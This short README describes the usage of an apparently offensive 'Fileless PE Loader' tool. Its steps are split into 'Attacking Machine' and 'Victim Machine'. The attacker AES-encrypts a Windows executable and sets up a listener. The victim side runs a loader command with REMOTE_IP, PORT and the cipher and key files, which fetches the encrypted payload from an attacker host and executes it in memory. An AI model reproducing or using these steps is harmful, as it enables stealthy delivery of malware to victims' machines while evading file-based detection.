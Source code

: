 # Fileless PE Loader

## Github repo: https://github.com/SaadAhla/FilelessPELoader

### Usage:

## Attacking Machine:

#### 1) 

    python3 aes.py PE.exe

#### 2) After running the program, a cipher.bin and a key.bin is left in the current working directory (Check with ls)

#### 3) Setup Listener

## Victim Machine

#### 1) Compile with Visual Studio 

#### 2) 

    FilelessPELoader.exe REMOTE_IP PORT CIPHER.bin KEY.bin

#### 3) GG

